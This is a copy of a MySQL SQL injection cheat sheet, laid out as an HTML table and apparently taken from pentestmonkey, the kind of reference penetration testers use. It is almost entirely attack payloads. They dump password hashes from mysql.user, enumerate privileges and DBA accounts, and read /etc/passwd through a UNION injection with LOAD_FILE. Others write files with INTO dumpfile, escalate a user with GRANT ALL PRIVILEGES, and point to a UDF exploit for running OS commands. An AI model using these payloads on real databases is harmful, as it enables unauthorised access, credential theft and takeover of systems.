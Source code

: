 http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT @@version</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; #comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user();<br>
SELECT system_user();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT user FROM mysql.user; — priv</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT host, user, password FROM mysql.user; — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://www.openwall.com/john/">John the Ripper</a> will crack MySQL password hashes.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT database()</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT schema_name FROM information_schema.schemata; — for MySQL &gt;= v5.0<br>
SELECT distinct(db) FROM mysql.db — priv</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0<br>
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1); # returns c</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT 6 &amp; 2; # returns 2<br>
SELECT 6 &amp; 1; # returns 0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT char(65); # returns A</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’); # returns 65</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT cast(’1′ AS unsigned integer);<br>
SELECT cast(’123′ AS char);</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT CONCAT(‘A’,'B’); #returns AB<br>
SELECT CONCAT(‘A’,'B’,'C’); # returns ABC</td>
</tr>
<tr>
<td>If Statement</td>
<td>SELECT if(1=1,’foo’,'bar’); — returns ‘foo’</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT 0×414243; # returns ABC</td>
</tr>
<tr>
<td>Time Delay</td>
<td><span>SELECT BENCHMARK(1000000,MD5(‘A’));<br>
SELECT SLEEP(5); # &gt;= 5.0.12<br>
</span></td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Impossible?</td>
</tr>
<tr>
<td>Command Execution</td>
<td>If mysqld (&lt;5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).&nbsp; The .so file should contain a User Defined Function (UDF).&nbsp; <a href="http://www.0xdeadbeef.info/exploits/raptor_udf.c">raptor_udf.c</a> explains exactly how you go about this.&nbsp; Remember to compile for the target architecture which may or may not be the same as your attack platform.</td>
</tr>
<tr>
<td>Local File Access</td>
<td>…’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files.<br>
SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system</td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT @@hostname;</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv</td>
</tr>
<tr>
<td>Delete Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv</td>
</tr>
<tr>
<td>Location of DB files</td>
<td>SELECT @@datadir;</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>information_schema (&gt;= mysql 5.0)<br>
mysql</td>
</tr>
</tbody>
</table>